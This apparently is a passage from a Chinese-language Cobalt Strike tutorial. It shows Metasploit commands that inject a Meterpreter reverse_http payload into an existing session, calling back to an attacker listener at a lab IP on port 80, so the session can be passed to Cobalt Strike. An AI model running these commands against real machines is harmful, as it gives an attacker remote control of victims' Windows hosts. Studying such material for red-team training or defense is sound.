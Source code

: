 

输入如下命令进行派生会话, 派生完成后返回会话的进程PID为3322

```
use exploit/windows/local/payload_inject  

set payload windows/meterpreter/reverse_http

set lhost 192.168.47.134

set lport 80

set disablepayloadhandler True  //默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true

set session 6

exploit
```

![image-20221006173316522](CobaltStrike的使用教程/image-20221006173316522.png)

​	

返回CS查看上线的会话 (PID:3332)

![image-20221006173808452](CobaltStrike的使用教程/image-20221006173808452.png)

​	

